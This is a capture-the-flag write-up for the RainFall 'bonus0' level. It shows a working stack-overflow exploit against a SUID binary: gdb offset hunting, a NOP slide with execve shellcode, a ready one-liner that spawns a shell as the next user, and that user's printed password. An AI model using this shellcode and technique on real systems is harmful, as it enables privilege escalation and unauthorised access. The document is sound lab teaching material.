# Level bonus 0

## Vulnerability

strcpy() heap overflow

## Context

We find a binary with owner ```bonus1``` and SUID.
```
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```
When run it seems to accept 2 seperate inputs on stdin, and print them with a space between.
```
bonus0@RainFall:~$ ./bonus0
 -
wait...
 -
what?
wait... what?
```

## Solution

Longer strings reveal the buffer overflow weakness.
```
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
```
Investigating with gdb we find main calls function ```pp```. ```pp``` calls function ```p``` twice, reading from stdin.

```p``` reads 4096 bytes into a buffer then uses ```strncpy()``` to return the first 20 bytes.
```strncpy()``` does not null terminate the string if the source is longer than destination.

Then when ```pp``` uses ```strcpy``` to copy the first string, without null termination it continues past the first string into the second.
This leads to us overflowing the main buffer, overwriting the EIP return address, and segfaulting.

Let's try to write our malicious code (which opens a shell) in the first string.
Then use the second string to overflow and write the address of our malicious code.

Using [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) we create our malicious code. ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

Then we need to find the EIP offset where to write the address of our malicious code. Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 9.
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9...
Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
The buffer is 42 bytes (0x40 - 0x16), so we want to overwrite the return address at buffer[54].

To find the address of our malicious code
```
bonus0@RainFall:~$ gdb -q bonus0
...
(gdb) disas p
...
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax ; buffer address
...
(gdb) break *p+28
Breakpoint 1 at 0x80484d0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -

Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe640:	0x00000000
```
The buffer starts at ```0xbfffe640```. We will create a large NOP slide leading to our malicious code, so lets overwrite EIP wih an address somewhere on the NOP slide, let's say buffer + 100 ```0xbfffe6a4``` = "\xa4\xe6\xff\xbf".

So we want to craft our first string:
1. A large NOP slide buffer leading to our malicious code - ```'\x90' * 3000```
2. our malicious shell code - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```

And our second string:
1. A buffer until we reach EIP - ```'B' * 14```
2. Address on NOP slide leading to our malicious code - ```\xa4\xe6\xff\xbf```
3. buffer single byte - ```'B'```

Lets provide these two to the binary.
```
bonus0@RainFall:~$ (python -c "print('\x90' * 3000 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
 -
 -
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
Here is a handy one liner:
```
(python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | ~/bonus0
```

## Recreate Exploited Binary

As user ```bonus1```, in ```/tmp```, create and compile ```bonus0_source.c```
```
bonus1@RainFall:/tmp$ gcc bonus0_source.c -fno-stack-protector -z execstack -o bonus0_source
```
Edit permissions including suid, then move the binary to home directory.
```
bonus1@RainFall:/tmp$ chmod u+s bonus0_source; chmod +wx ~; mv bonus0_source ~
```
Exit back to user ```bonus0```, then pipe our exploit into the source. Luckily, p()'s buffer address is similar, so the return address doesn't need updating.
```
bonus1@RainFall:/tmp$ exit
exit
bonus0@RainFall:~$ (python -c "print('\x90' * 3000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"; python -c "print('B' * 14 + '\xa4\xe6\xff\xbf' + 'B')"; cat) | /home/user/bonus1/bonus0_source
 -
 -
��������������������BBBBBBBBBBBBBB����B BBBBBBBBBBBBBB����B
whoami
bonus1
```

